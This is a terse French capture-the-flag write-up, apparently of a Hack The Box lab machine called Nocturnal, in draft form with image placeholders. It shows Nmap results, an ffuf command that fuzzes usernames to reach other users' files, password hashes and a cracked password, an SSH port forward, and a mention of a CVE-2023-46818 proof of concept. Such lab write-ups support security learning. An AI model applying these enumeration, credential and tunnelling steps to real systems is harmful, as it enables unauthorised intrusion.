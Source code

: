 Difficulte : Easy 
# Enumeration 
## Nmap 
Nous commençons par exécuter une analyse Nmap sur la cible . 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://nocturnal.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Nmap révèle une installation avec le domaine nocturnal.htb. 
Nous ajoutons le domaine découvert à notre fichier hosts.

```
echo "10.10.11.64 nocturnal.htb" | sudo tee -a /etc/hosts
```

![[Pasted image 20250527003400.png]]

```
ffuf -u 'http://nocturnal.htb/view.php?username=FUZZ&file=*.pdf' -w
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -mc 200 -fr
"User not found." -H "Cookie: PHPSESSID=4d9uqe8ifkefg1pkgu5ksi06qs"
```


http://nocturnal.htb/view.php?username=amanda&file=file.pdf

![[Pasted image 20250527004606.png]]

arHkG7HAI68X8s1J.


admin:d725aeba143f575736b07e045d8ceebb
tobias:55c82b1ccd55ab219b3b109b07d5061d


tobias:slowmotionapocalypse

netstat -tulpn 2>/dev/null

ssh -L 8080:127.0.0.1:8080 tobias@10.10.11.64


![[Pasted image 20250527005832.png]]

CVE-2023-46818 poc